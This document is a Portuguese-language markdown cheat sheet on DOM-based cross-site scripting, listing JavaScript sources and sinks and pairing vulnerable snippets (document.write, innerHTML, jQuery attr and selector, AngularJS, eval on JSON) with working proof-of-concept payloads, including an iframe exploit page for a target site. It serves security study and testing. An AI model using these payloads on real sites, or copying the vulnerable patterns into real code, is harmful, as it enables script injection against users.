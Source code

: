 ## Sources
É uma propriedade do Javascript que aceita/recebe input de dados. 
```
document.URL
document.documentURI
document.URLUnencoded
document.baseURI
location
document.cookie
document.referrer
window.name
history.pushState
history.replaceState
localStorage
sessionStorage
IndexedDB (mozIndexedDB, webkitIndexedDB, msIndexedDB)
Database
```

## Sink
É uma função do Javascript ou um objeto DOM. A vulnerabilidade DOM ocorre quando um input é enviado do Source para o Sink e é executado de forma insegura. 
```
document.write()
window.location
document.cookie
eval()
document.domain
WebSocket()
element.src
postMessage()
setRequestHeader()
FileReader.readAsText()
ExecuteSql()
sessionStorage.setItem()
document.evaluate()
JSON.parse()
element.setAttribute()
RegExp()
```
## DOM XSS 
###Exemplo
```
+ URL com o parâmetro Search 
https://exemplo.com.br/?search=abcd
```
+ Javascript dentro do HTML
+ O payload é armazenado na função document.write (Sink) e processado pela função window.location.search (Sink)
+ Payload: ```"><svg onload=alert(1)>```
```
<section class=search>
   <form action=/ method=GET>
        <input type=text placeholder='Search the blog' name=search>
             <button type=submit class=button>Search</button>
   </form>
</section>
<script>
   function trackSearch(query) {

//O valor inserido no parâmetro Search é armazenado na função document.wirte
   document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}
//O valor de Search é processado pela função window.location.search
   var query = (new URLSearchParams(window.location.search)).get('search');
   if(query) {
      trackSearch(query);
   }
</script>
```
### Exemplo com innerHTML
```
+ URL com o parâmetro Search
https://exemplo.com.br/?search=abcd
```
+ Javascript dentro do HTML
+ O payload é capturado pelo método innerHTML e processado pela função window.location.search
+ Payload: ```<img src=1 onerror=alert(1)>```
```
<script>
   function doSearchQuery(query) {
   document.getElementById('searchMessage').innerHTML = query;
}
   var query = (new URLSearchParams(window.location.search)).get('search');
       if(query) {
               doSearchQuery(query);
}
</script>
```
### Exemplo com botão "Voltar"
```
+ URL com o parâmetro returnPath
https://exemplo.com.br/feedback?returnPath=/
```
+ jQuery usa o parâmetro attr() para processar o valor do parâmetro returnPath
```
<script>
   $(function() {
      $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
 });
 </script>
```
### Exemplo com selector $() do jQuery
+ Payload
+ Adicione a url do site-alvo no payload abaixo
+ Ao funcionar, será aberto a tela de impressão da página vulnerável
```
<html>
   <head>
      <h1>Teste DOM-XSS Selector $() jQuery</h1>
</head>
<body>
   <iframe src="https://site-alvo.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
</body>
</html>
```
### Exemplo com AngularJS atributo ng-app
+ URL com o parâmetro Search
```
https://exemplo.net/?search=abcd

O valor abcd é refletido na página dentro de aspas simples ''
```
+ Payload
```
{{$on.constructor('alert(1)')()}}
```
### Exemplo com valor refletido no json
+ URL com o parâmetro Search
```
https://exemplo.net/?search=abcd

O valor abcd é refletido na resposta do servidor dentro do formato json
```
+ O javascript que processa o valor inserido no parâemtro Searc usa a função eval()
+ Payload ``` \"-alert(1)}// ```
